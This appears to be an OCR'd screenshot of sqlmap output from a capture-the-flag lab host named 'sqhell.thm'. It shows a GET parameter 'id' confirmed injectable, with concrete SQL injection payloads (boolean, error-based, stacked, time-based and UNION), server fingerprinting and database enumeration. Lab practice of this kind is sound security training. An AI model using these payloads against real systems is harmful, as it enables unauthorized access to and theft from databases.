 ```
[22:41:46] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 stacked queries (comment)' injectable 
[22:41:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:41:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:41:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:41:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:41:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:41:56] [INFO] target URL appears to have 4 columns in query
[22:41:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 52 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7533=7533

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=2 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(3773=3773,1))),0x716a767071),3773)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 1146 FROM (SELECT(SLEEP(5)))RxrU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3834 UNION ALL SELECT NULL,CONCAT(0x716a6b7071,0x52756b6441764b664548654d68494b726b4477706d7955444c66446a50665864577a784e77435848,0x716a767071),NULL,NULL-- -
---
[22:41:58] [INFO] the back-end DBMS is MySQL
[22:41:58] [WARNING] potential permission problems detected ('command denied')
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.6
[22:41:58] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] sqhell_5
[22:41:59] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:41:59 /2021-06-10/
```
